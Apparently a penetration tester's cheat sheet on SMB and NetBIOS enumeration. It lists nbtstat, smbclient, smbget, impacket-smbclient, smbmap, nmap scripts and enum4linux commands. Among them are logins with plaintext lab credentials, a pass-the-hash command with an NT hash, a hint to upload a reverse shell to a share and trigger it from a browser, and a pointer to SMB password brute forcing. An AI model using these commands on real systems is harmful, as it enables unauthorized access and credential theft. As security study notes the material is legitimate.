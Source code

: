 For Getting Info About The Target's NETBIOS, Use ***nbtstat*** On *Windows* & ***smbclient*** On *Linux* OR [[Nmap]] On *Both*.
This Command Is Used For Getting *NETBIOS Statistics* & *Current TCP/IP Connections*

---
# nbtstat
In ***Windows*** :-
nbtstat **-A** [IP Address]
**-a** : Input Remote Target's *Name*
**-A** : Input Remote Target's *IP Address*
![[Pasted image 20221127215011.png]]

---
# smbclient
```sh
smbclient -L [IP Address]

# Connect to the SMB Server with a username
smbclient -L //[IP] -U [username]

# Connect with username & password in one command (No spaces in -U)
smbclient -L //[IP] -U[username]%[password]
OR
smbclient -L //172.16.215.217/ -U hr_admin --password=Welcome1234

smbclient -U bob \\\\10.129.42.253\\users

smb: \> prompt off            # Turn off prompt for get
smb: \> timeout 100            # Increase timeout for downloading large files
smb: \bob\> get [filename]    # To download a file from smb server
smb: \> pwd                   # Check PWD (Go to HTTP & check if directory can be accessed!)
smb: \> put [filename]        # Put a Reverse Shell & execute from browser

# Pass-the-Hash with smbclient
smbclient \\\\192.168.50.212\\secrets -U Administrator --pw-nt-hash 7a38310ea6f0027ee955abed1762964b
```

**-I** : IP Address
**-L** : Lists shares
![[Pasted image 20221127215629.png]]

  
You can **recursively download the SMB share** too.
```sh
smbget -R smb://10.10.43.62//[sharename]

# To get shares for a specific user
smbget -R smb://10.10.43.62//[sharename] -U[username%password]
```

## Impacket-smbclient
Doesn't timeout so can use to download large files
```sh
impacket-smbclient 'resourced.local/V.Ventz:HotelCalifornia194!@192.168.213.175'

## Commands
shares              # To list all the shares
use Password Audit  # Connect to that share
get SYSTEM          # Download file
mget *              # Download all files in the directory
```

---
# smbmap
Tells the Share **Permissions** too unlike smbclient
```sh
smbmap -H [IP] -u [username] -p [password]
```

---
# Nmap
nmap **-p** 445 -A [IP]
OR
nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse 10.10.43.62
![[Pasted image 20221127230558.png]]


---
# Enum4Linux (Old)
```sh
enum4linux 10.17.36.8
```
[Enum4Linux Full Tutorial | Noob to Pro | 2023 (techyrick.com)](https://techyrick.com/enum4linux-full-tutorial/)

# Enum4linux-ng (New)
```sh
enum4linux-ng -A -R 10 [IP]
```
`-R`: RID Cycling for enumerating users

---
# SMB Password Bruteforcing
https://www.hackingarticles.in/password-crackingsmb/